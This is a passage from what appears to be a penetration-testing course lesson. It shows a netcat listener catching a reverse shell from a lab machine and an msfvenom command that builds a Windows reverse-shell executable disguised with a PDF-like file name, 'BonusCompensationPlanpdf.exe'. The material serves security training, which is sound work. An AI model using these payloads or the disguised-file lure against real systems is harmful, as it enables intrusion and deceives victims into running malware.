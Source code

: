 We would have a listener ready to catch the connection on the attack box side upon successful execution.

### **NC Connection**

```shell-session
$ sudo nc -lvnp 443
```

When the file is executed, we see that we have caught a shell.

### **Connection Established**

```shell-session
$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
```

This same concept can be used to create payloads for various platforms, including Windows.

## Building a simple Stageless Payload for a Windows system

We can also use msfvenom to craft an executable (`.exe`) file that can be run on a Windows system to provide a shell.

### **Windows Payload**

```shell-session
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

The command syntax can be broken down in the same way we did above. The only differences, of course, are the `platform` (`Windows`) and format (`.exe`) of the payload.
